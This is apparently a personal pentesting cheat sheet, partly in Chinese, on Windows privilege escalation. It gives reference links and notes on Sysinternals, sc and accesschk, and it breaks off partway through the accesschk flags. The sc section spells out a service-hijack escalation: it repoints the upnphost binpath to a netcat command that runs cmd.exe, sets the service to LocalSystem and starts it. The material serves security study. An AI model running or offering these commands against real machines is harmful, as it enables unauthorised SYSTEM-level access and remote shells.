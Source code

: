 # Privilege Escalation Windows
[TOC]
###### tags: `Security` `PrivilegeEscalation`

# Reference
* [🌟Windows 提權 | FuzzySecurity - Windows Privilege Escalation Fundamentals](http://www.fuzzysecurity.com/tutorials/16.html)
* [Windows explotion suggester & compiled exp](https://github.com/SecWiki/windows-kernel-exploits/tree/master/win-exp-suggester)
* [Windows Privilege Escalation Vectors](https://toshellandback.com/2015/11/24/ms-priv-esc/) ([中文](https://www.freebuf.com/vuls/87463.html))
* [pentestmonkey/windows-privesc-check](https://github.com/pentestmonkey/windows-privesc-check)
* [PayloadsAllTheThings ─ Windows - Privilege Escalation](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)

# Tools
## Windows services
[Microsoft's Sysinternals Suite](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite)
第一次用 Sysinternal 的工具都會跳出 GUI 同意使用者條款，可以加入 `/accepteula` 參數略過這個步驟。

+ ### Service Control

    * #### sc
    sc can query, configure and manage windows services.
    ```
    C:\> sc qc {{Service name: Spooler}}
    C:\> sc config upnphost binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
    C:\> sc config upnphost obj= ".\LocalSystem" password= ""
    ```
    * #### Net
    ```
    C:\> net start upnphost
    ```

+ ### Permission
    ![](https://i.imgur.com/zd4Yjur.png)

    * #### Accesschk
    A tool in Sysinternals Suite
    ```
    -u Suppress errors.
    -c Name is a Windows Service
    -v Verbose (includes Windows Vista Integrity Level).
    -w Show only objects that have write access.
    -d Only process directories or top level key.
    -s Recurse.
